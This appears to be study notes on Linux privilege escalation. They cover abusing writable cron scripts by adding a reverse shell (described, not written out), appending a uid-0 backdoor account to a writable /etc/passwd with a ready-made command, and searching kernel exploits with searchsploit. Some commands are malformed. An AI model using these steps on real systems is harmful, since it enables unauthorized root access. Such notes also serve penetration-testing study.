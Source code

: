 ### Insecure File Permissions: Cron Case Study

Inspect cron log for running jobs: `grep "CRON" /var/log/cron.log`

If some executable to be executed has unrestricted permissions, then we can modify the content of the script.

Add a reverse shell to the script.

### Insecure File Permissions: /etc/passwd Case Study

 If we can write to `/etc/passwd`, we can add an account.

`openssl passwd evil` 

```bash
openssl passwd evil			# generate hash for password
# > 3ZpVEg3djUeto
# Then add the new account info in the right format to /etc/passwd
echo "root2:3ZpVEg3djUeto:0:0:root:/root:/bin/bash" >> /etc/passwd	# 0:0: are user and group ids, 0 means superuser
su root2		# switch user to verify if account is added
id			    # check user id and group id
```

### Linux Kernel Vulnerabilities: Case Study

```bash
cat /etc/issue				# see message/system identification to be printed before login prompt
uname r					    # kernel
arch x86_64					# architecture
```

```bash
searchsploit linux kernel ubuntu 16.04			# search for existing exploits
```




















